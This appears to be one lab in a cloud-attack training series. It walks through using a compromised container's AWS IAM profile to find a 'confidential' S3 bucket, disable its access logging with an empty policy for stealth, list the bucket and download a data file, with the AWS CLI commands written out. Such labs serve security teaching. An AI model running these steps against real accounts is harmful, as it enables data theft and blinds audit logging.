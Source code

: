 # Lab 4: Moving laterally to a S3 bucket

In the previous lab, we explored the compromised container and discovered an associated IAM profile with access to the AWS CLI. We also discovered that we have read access to Amazon Simple Storage Service (S3).

**Breakout**

Having identified this new potential lateral target (via S3 read access), let’s investigate how we can further leverage the AWS CLI.

Due to a fairly common access control misconfiguration, we can impersonate both the root user of this container, along with the existing AWS IAM profile associated with this container (for accessing AWS services). It is possible that excessive permissions have been assigned to this IAM profile, so let’s continue probing our capabilities in S3.

In the previous lab, we enumerated the AWS account S3 buckets.

![Listing S3 contents](lab3-5.png)

Notice that two buckets include the string “confidential” and one of them appears to be a logging bucket. To be stealthy, we should disable any active bucket access logging policy that might be writing to that bucket.

_Get the target bucket name_

```shell
TARGET_BUCKET=$(aws s3api list-buckets --query 'Buckets[].[Name]' --output text | grep confidentialbucket)

echo $TARGET_BUCKET
```

Check for a bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

![Bucket logging configuration](lab4-1.png)

> [!NOTE]
> If your Metasploit session closes unexpectedly, type “run -j” at the metasploit console prompt to reconnect to the target.

We can see from the result that there is a logging bucket policy. We’ll create and associate an empty bucket policy with the confidential data bucket to disable the policy.

Associate an empty bucket-logging policy to disable bucket logging

```shell
echo "{}" > no-bucket-logging.json

aws s3api put-bucket-logging --bucket $TARGET_BUCKET --bucket-logging-status file://no-bucket-logging.json
```

Confirm that we attached the new bucket logging policy

```shell
aws s3api get-bucket-logging --bucket $TARGET_BUCKET
```

Since we added a null policy, the command should return nothing. It worked!

**Confirming the S3 target**

Now we’re just going to try and access the confidential bucket and see if we get results. AWS S3 buckets support granular permissions, so while we may have access to the bucket, we might not be able to list files, or only list specific files.

```shell
aws s3 ls s3://$TARGET_BUCKET
```

![Reviewing bucket target](lab4-2.png)

Success!

We only see the one file, but it does look pretty interesting...

Download the file to the local container

```shell
aws s3 cp s3://$TARGET_BUCKET/confidential-data.txt s3-captured.txt
```

**Attack progression diagram**

There are three steps to this attack. The diagram below shows what we have accomplished with a few simple misconfigurations.

![Attack progression](lab4-3.png)
